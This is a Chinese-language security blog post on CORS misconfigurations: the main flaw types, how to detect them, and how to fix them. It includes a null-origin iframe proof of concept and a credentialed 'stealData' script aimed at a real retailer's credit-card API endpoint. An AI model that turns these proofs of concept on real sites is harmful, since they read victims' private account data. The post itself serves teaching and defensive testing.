 # CORS漏洞检测和利用方式


## 简介

CORS全称`Cross-Origin Resource Sharing`, 跨域资源共享，是HTML5的一个新特性，已被所有浏览器支持，不同于古老的jsonp只能get请求，被发明出来就是为了干掉JSONP的，因为用的多，其安全问题也更加普遍。

解决了跨域情况下资源的请求与传输。



## CORS实现原理



> 有个常见的关于同源策略的误区需要指出一下，同源策略并不限制请求的发起和响应，只是浏览器拒绝了js对响应资源的操作



CORS本质上就是使用各种头信息让浏览器与服务器之间进行交流，上面提到的名单就是用下面的http头字段来控制的：

![cors的http字段](http://image.xpshuai.cn/img/image-20220112212319982.png)

其中比较重要的相应头为：

```
Access-Control-Allow-Origin: http://a.com  表示服务端接受来自http://a.com的跨域请求
Access-Control-Allow-Credentials: true  表示是否允许发送Cookie，true即发送cookie
```





## CORS常见安全问题

实际中我们可能会遇到各种场景，所以CORS也很容易出现配置上的安全问题，大概有如下几种：

### 1 反射Origin头

当管理员想允许多个域名跨域请求时，以下写法都是不允许的

```bash
Access-Control-Allow-Origin: http://a.com, http://c.com
#或者
Access-Control-Allow-Origin: http://*.a.com
```

因为CORS标准规定，Access-Control-Allow-Origin**只能配置为单个origin, null或***。

有些开发者为了方便，直接使用请求者的origin作为Access-Control-Allow-Origin的域名，例如下面的Nginx配置:

```bash
add_header "Access-Control-Allow-Origin" $http_origin;
add_header "Access-Control-Allow-Credentials" "true";

# 这种配置非常危险，相当于任意网站可以直接跨域读取其资源内容。
```





### 2 Origin 校验错误

前面那种反射Origin的做法过于暴力，一般不可取，常用做法是通过自定义规则来校验Origin头，但是在校验过程中也会出现错误。这些错误可以分为四类：

- **前缀匹配**：例如想要允许example.com访问，但是只做了前缀匹配，导致同时信任了example.com.attack.com的访问。
- **后缀匹配**：例如想要允许example.com访问，由于后缀匹配出错，导致允许attackexample.com访问。
- **没有转义`.`**：例如想要允许www.example.com访问，但正则匹配没有转义`.`，导致允许wwwaexample.com访问。
- **包含匹配**：例如想要允许example.com，但是Origin校验出错，出现允许ample.com访问。



### 3 信任null

当配置信任名单为null，可以用来和本地file页面共享数据，如下所示：

```
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

但是攻击者也可以构造Origin为null的跨域请求，比如通过iframe sandbox：

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src='data:text/html,<script>
var xhr=new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
        alert(xhr.responseText);
    }
}
xhr.open("GET", "http://www.a.com/a.php", true);
xhr.withCredentials = true;
xhr.send();</script>'>
</iframe>
```



### 4 HTTPS域信任HTTP域

但是如果该HTTPS网站配置了CORS且信任HTTP域，那么中间人攻击者可以先劫持受信任HTTP域，然后通过这个域发送跨域请求到HTTPS网站，间接读取HTTPS域下的受保护内容.



### 5 信任自身全部子域

很多网站为了方便会将CORS配置为信任全部自身子域，这种配置会扩大子域 XSS的危害。

比如某子站存在xss时，可以通过此xss发送跨域请求，从而获取敏感内容。



### 6 Origin:*与 Credentials:true 共用

`Access-Control-Allow-Origin:*`用于表示允许任意域访问，这种配置只能用于共享公开资源。

所以下面这种配置是错误的，浏览器不允许这两种配置同时出现。(对于共享公开资源，不应该需要身份认证)

```
Access-Control-Allow-Origin: * 
Access-Control-Allow-Credentials: true 
```



### 7 缺少Vary: Origin头

如果一个资源享有多个域名，它需要对不同域名的请求包生成不同的Access-Control-Allow-Origin头。如果一个请求的响应被缓存，且返回中没有Vary: Origin字段，可能会导致其它域名的请求失效。

比如c.com同时允许a.com和b.com共享。c.com资源内容首先被a.com脚本跨域访问后被缓存，其中缓存响应头为`Access-Control-Allow-Origin:http://a.com`这时，b.com脚本则不能读取缓存响应内容，因为缓存响应头是允许a.com共享，而不是b.com。





## 检测方式

F1.curl访问网站　　

```
curl http://www.xpshuai.cn -H "Origin: https://test.com" -I
```

检查返回包的 Access-Control-Allow-Origin 字段是否为https://test.com



F2.burpsuite发送请求包，查看返回包



F3.也可以用开源工具：https://github.com/chenjj/CORScanner



F4.对于网站漏洞的挖掘可以使用burp，先勾选上proxy --> options --> Origin --> match and replace里面的Add spoofed CORS origin。

然后在网站观察功能点，最后在HTTP history来筛选带有CORS头部的值，然后用以上工具查看是否有配置缺陷。

检测到CORS配置错误以后，以下有一份poc可用来写报告（感谢大佬）：

```javascript
<script>
    //以受害者身份，发送一个跨域请求给目标url
    var req = new XMLHttpRequest();
    req.open('GET',"https://www.walmart.com/account/electrode/account/api/customer/:CID/credit-card",true);
    req.onload = stealData;
    req.withCredentials = true;
    req.send();

    function stealData(){
        //由于目标站点的CORS配置错误，我们可以读取到相应包
        var data= JSON.stringify(JSON.parse(this.responseText),null,2);

        //展示相应包到这个页面上，作为hacker还可以将内容发送到自己的服务器
        output(data);
    }

    function output(inp) {
        document.body.appendChild(document.createElement('pre')).innerHTML = inp;
    }
</script>

```



## 危害

1.同于csrf跨站请求伪造，发送钓鱼链接，读取用户敏感数据。

​	还可以获取cookie，针对http-only js代码无法读取的情况



2.结合xss漏洞利用cors漏洞，针对http_only js代码无法读取











## 漏洞防范

- 不要盲目反射Origin头
- 严格校验Origin头，避免出现权限泄露
- 不要配置Access-Control-Allow-Origin: null
- HTTPS网站不要信任HTTP域
- 不要信任全部自身子域，减少攻击面
- 不要配置Origin:*和Credentials: true
- 增加Vary: Origin头







## 参考文章

[CORS介绍及其漏洞检测 - SAUCERMAN (saucer-man.com)](https://saucer-man.com/information_security/331.html)



---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/cors%E6%BC%8F%E6%B4%9E%E6%A3%80%E6%B5%8B%E5%92%8C%E5%88%A9%E7%94%A8%E6%96%B9%E5%BC%8F/  

